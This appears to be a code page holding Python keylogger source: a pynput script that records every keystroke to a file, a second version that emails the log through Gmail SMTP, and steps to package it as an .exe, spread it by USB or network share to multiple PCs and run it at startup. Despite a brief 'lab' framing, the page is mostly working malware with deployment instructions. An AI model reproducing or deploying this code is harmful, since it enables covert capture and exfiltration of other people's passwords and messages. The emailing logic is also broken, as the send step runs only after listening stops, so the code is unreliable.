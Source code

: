 <!--# KEYLOG
# CODE 1


from pynput import keyboard

log_file = "keystrokes.txt"

def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write(f"{key.char}")  # Logs characters
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f" {key} ")  # Logs special keys

# Start listening to the keyboard
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()



# <!--Step on how to use--!>
Run this in a controlled lab environment.
Analyze the logs and understand how keyloggers store data.
Study detection methods like behavioral analysis, process monitoring, and anti-keylogging software.



# CODE 2

import smtplib
from email.message import EmailMessage
from pynput import keyboard

LOG_FILE = "keystrokes.txt"
EMAIL_ADDRESS = "your_email@gmail.com"
EMAIL_PASSWORD = "your_password"  # Use App Passwords for security!

def send_email():
    with open(LOG_FILE, "r") as file:
        data = file.read()

    msg = EmailMessage()
    msg.set_content(data)
    msg["Subject"] = "Keystroke Logs"
    msg["From"] = EMAIL_ADDRESS
    msg["To"] = EMAIL_ADDRESS  # Send to yourself or another test email

    with smtplib.SMTP_SSL("smtp.gmail.com", 465) as server:
        server.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
        server.send_message(msg)

def on_press(key):
    try:
        with open(LOG_FILE, "a") as file:
            file.write(f"{key.char}")
    except AttributeError:
        with open(LOG_FILE, "a") as file:
            file.write(f" {key} ")

# Automatically send logs every few minutes
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
    send_email()






# Step 2:
After the code we can use this step

# Deploying on Multiple PCs (For Research)
# Convert the script into an executable (.exe) using pyinstaller:

pyinstaller --onefile keylogger.py

# Store it on a USB drive or deploy via network sharing.
# Use task scheduling (Windows Task Scheduler, crontab) to run it at startup.-->


